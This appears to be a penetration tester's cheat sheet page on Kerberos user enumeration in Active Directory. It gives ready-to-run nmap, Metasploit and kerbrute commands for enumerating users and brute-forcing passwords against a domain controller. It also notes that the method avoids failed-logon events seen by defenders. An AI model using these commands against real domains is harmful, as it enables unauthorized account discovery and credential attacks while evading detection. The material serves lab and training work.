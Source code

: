 ## Enumeration

{% code overflow="wrap" fullWidth="true" %}
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" (-Pn) IP
use auxiliary/gather/kerberos_enumusers # MSF
https://github.com/attackdebris/kerberos_enum_userlists

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt
```
{% endcode %}

### Kerbrute

{% tabs %}
{% tab title="Overview" %}
| [https://www.puckiestyle.nl/kerbrute/](https://www.puckiestyle.nl/kerbrute/) |
| ---------------------------------------------------------------------------- |

Kerbrute is a popular enumeration tool used to brute-force and enumerate valid active-directory users by abusing the Kerberos pre-authentication.

You need to add the DNS domain name along with the machine IP to /etc/hosts inside of your attacker machine or these attacks will not work for you - `10.10.120.125  CONTROLLER.local`   &#x20;
{% endtab %}

{% tab title="Pre-Authentication" %}
By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through Kerberos you can brute-force by only sending a single UDP frame to the KDC allowing you to enumerate the users on the domain from a wordlist.

[https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)
{% endtab %}

{% tab title="Enumerating users" %}
{% hint style="info" %}
When I enumerate users, if AS-REP Roasting is possible, kerbrute might  indicate it as well. Otherwise, try **GetNPUsers** after kerbrute.
{% endhint %}

Enumerating users allows you to know which user accounts are on the target domain and which accounts could potentially be used to access the network.

Very basic wordlist [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)

{% code overflow="wrap" %}
```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt 
# This will brute force user accounts from a domain controller using a supplied wordlist
# IMPORTANT: ADD A FAKE USER TO THE LIST SO WE CHECK THERE ARE NO FALSE POSITIVES
```
{% endcode %}
